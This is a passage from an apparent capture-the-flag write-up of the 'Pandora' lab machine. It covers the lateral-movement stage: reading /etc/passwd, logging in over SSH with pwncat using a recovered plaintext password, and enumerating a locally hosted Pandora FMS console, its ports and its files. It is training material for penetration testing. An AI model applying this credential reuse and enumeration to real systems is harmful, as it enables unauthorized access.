 Running `cat /etc/passwd` shows that the user with id `1000` is `matt`. The `user.txt` flag is in `matt`'s home folder, which we can see by running `ls /home/matt`.

## Lateral Movement

We login over SSH to the `daniel` user with `pwncat` by running `pwncat-cs daniel@pandora.htb`.

Let's check out the process that was being run that gave us the login information. Running the same command `/usr/bin/host_check -u daniel -p HotelBabylon23` produces:

```
PandoraFMS host check utility
Now attempting to check PandoraFMS registered hosts.
Files will be saved to ~/.host_check
```

`cat ~/.host_check`:

```
1;localhost.localdomain;192.168.1.42;Created by localhost.localdomain;Linux;;09fbaa6fdf35afd44f8266676e4872f299c1d3cbb9846fbe944772d913fcfc69;3
2;localhost.localdomain;;Pandora FMS Server version 7.0NG.742_FIX_PERL2020;Linux;;localhost.localdomain;3
```

Looks like there is a service running on `localhost.localdomain`. Let's see what it is with `curl localhost.localdomain`, which shows `<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">`. Running `curl localhost.localdomain/pandora_console/` displays a whole website. Running `(netstat -punta || ss --ntpu) | grep "127.0"` to list open local ports doesn't show anything out of the ordinary so this web sever must be running as a different user:

```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
udp        0      0 127.0.0.1:56972         127.0.0.53:53           ESTABLISHED -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

So, let's check out `/var/www/` since we know this machine is using Apache due to our first `nmap` scan. There are two folders in `/var/www/`: `html`, which contains the original website we accessed on port `80`, and `pandora`, which contains the new site we found running locally.

Listing the contents of this directory with `ls -la pandora_console/` shows a lot of files owned by `matt`

```
total 1596
drwxr-xr-x 16 matt matt    4096 Dec  7 14:32 .
drwxr-xr-x  3 matt matt    4096 Dec  7 14:32 ..
-rw-r--r--  1 matt matt    3746 Jan  3  2020 ajax.php
drwxr-xr-x  6 matt matt    4096 Dec  7 14:32 attachment
-rw-r--r--  1 matt matt    1175 Jun 17  2021 audit.log
-rw-r--r--  1 matt matt     534 Jan  3  2020 AUTHORS
-rw-r--r--  1 matt matt     585 Jan  3  2020 composer.json
-rw-r--r--  1 matt matt   16003 Jan  3  2020 composer.lock
-rw-r--r--  1 matt matt   14875 May 17  2019 COPYING
-rw-r--r--  1 matt matt     506 Jan  3  2020 DB_Dockerfile
drwxr-xr-x  2 matt matt    4096 Dec  7 14:32 DEBIAN
-rw-r--r--  1 matt matt    3366 Jan  3  2020 docker_entrypoint.sh
-rw-r--r--  1 matt matt    1263 Jan  3  2020 Dockerfile
drwxr-xr-x 11 matt matt    4096 Dec  7 14:32 extensions
drwxr-xr-x  4 matt matt    4096 Dec  7 14:32 extras
drwxr-xr-x  2 matt matt    4096 Dec  7 14:32 fonts
drwxr-xr-x  5 matt matt    4096 Dec  7 14:32 general
drwxr-xr-x 20 matt matt    4096 Dec  7 14:32 godmode
drwxr-xr-x 21 matt matt   36864 Dec  7 14:32 images
drwxr-xr-x 21 matt matt    4096 Dec  7 14:32 include
```